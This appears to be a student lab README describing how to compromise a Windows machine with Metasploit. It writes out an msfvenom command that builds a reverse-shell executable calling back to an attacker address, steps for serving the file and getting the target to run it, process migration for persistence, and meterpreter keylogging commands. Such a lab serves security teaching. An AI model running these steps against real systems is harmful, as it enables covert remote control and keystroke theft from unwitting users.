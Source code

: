 # Compromising-windows-using-Metasploit
Compromising windows using Metasploit
# Metasploit
Compromising windows using Metasploit

# AIM:

To Compromise windows using Metasploit .

## DESIGN STEPS:

### Step 1:

Install kali linux either in partition or virtual box or in live mode

### Step 2:

Investigate on the various categories of tools as follows:

### Step 3:

Open terminal and try execute some kali linux commands

### PROGRAM:
Find the attackers ip address using ifconfig
#### OUTPUT:

![image](https://github.com/sreekarsh/Compromising-windows-using-Metasploit/assets/139841918/aad11ad5-4330-4006-b863-a69ac266473b)


Create a malicious executable file fun.exe using msenom command
msfvenom -p windows/meterpreter/reverse_tcp LHOST=192.168.1.2 -f exe > fun.exe
#### OUTPUT
![image](https://github.com/sreekarsh/Compromising-windows-using-Metasploit/assets/139841918/b010e32d-f4bd-41cb-bc29-60188dec6033)


copy the fun.exe into the apache /var/www/html folder

![image](https://github.com/sreekarsh/Compromising-windows-using-Metasploit/assets/139841918/5d8207f5-6825-4190-8bcc-3d9c4b64c690)


Start apache server
sudo systemctl apache2 start

![image](https://github.com/sreekarsh/Compromising-windows-using-Metasploit/assets/139841918/1a4df67c-46b5-4e10-9168-d8fdab5516d7)


Check the status of apache2

![image](https://github.com/sreekarsh/Compromising-windows-using-Metasploit/assets/139841918/87601630-7923-40ba-92cb-854c5621bba2)



Invoke msfconsole:
## OUTPUT:
Type help or a question mark "?" to see the list of all available commands you can use inside msfconsole.

Starting a command and control Server
use multi/handler

![image](https://github.com/sreekarsh/Compromising-windows-using-Metasploit/assets/139841918/6505235f-d553-4f54-8261-6a0f3b143584)

set PAYLOAD windows/meterpreter/reverse_tcp
set LHOST 0.0.0.0
exploit


On the target Windows machine, open a Web browser and open this URL, replacing the IP address with the IP address of your Kali machine:
http://192.168.1.2/fun.exe
The file "fun.exe" downloads. 
![image](https://github.com/sreekarsh/Compromising-windows-using-Metasploit/assets/139841918/e23d1d2a-5dc0-4582-ad5a-d4160041f365)


Bypass any warning boxes, double-click the file, and allow it to run.

On kali give the command exploit

![image](https://github.com/sreekarsh/Compromising-windows-using-Metasploit/assets/139841918/2a8922ed-fbc9-41e5-8123-9cb17a99c2be)


To see a list of processes, at the meterpreter > prompt, execute this command:
ps  ⇒ can see the fun.exe process running with pid 1156

![image](https://github.com/sreekarsh/Compromising-windows-using-Metasploit/assets/139841918/0b1852ab-2073-4d30-a4d0-c0ce680ace03)



The Metasploit shell is running inside the "fun.exe" process. If the user closes that process, or logs off, the connection will be lost.
To become more persistent, we'll migrate to a process that will last longer.
Let's migrate to the winlogon process.
At the meterpreter > prompt, execute this command:

migrate -N explorer.exe
at meterpreter > prompt, execute this command:
netstat
A list of network connections appears, including one to a remote port of 4444, as highlighted in the image below.
Notice the "PID/Program name" value for this connection, which is redacted 

![image](https://github.com/sreekarsh/Compromising-windows-using-Metasploit/assets/139841918/bfa4c4fc-a2c8-4fe8-a2b1-f3145793a01b)

Post Exploitation
The target is now owned. Following are meterpreter commands for key capturing in the target machine
keyscan_start	Begins capturing keys typed in the target. On the Windows target, open Notepad and type in some text, such as your name.
![image](https://github.com/sreekarsh/Compromising-windows-using-Metasploit/assets/139841918/a4c7b8fc-2b07-4085-8067-be4dd166ad06)

keyscan_dump	Shows the keystrokes captured so far

![image](https://github.com/sreekarsh/Compromising-windows-using-Metasploit/assets/139841918/e90f0ad4-cb67-43c5-8b33-02dc8c254412)







## RESULT:
The Metasploit framework for reconnaissance is  examined successfully
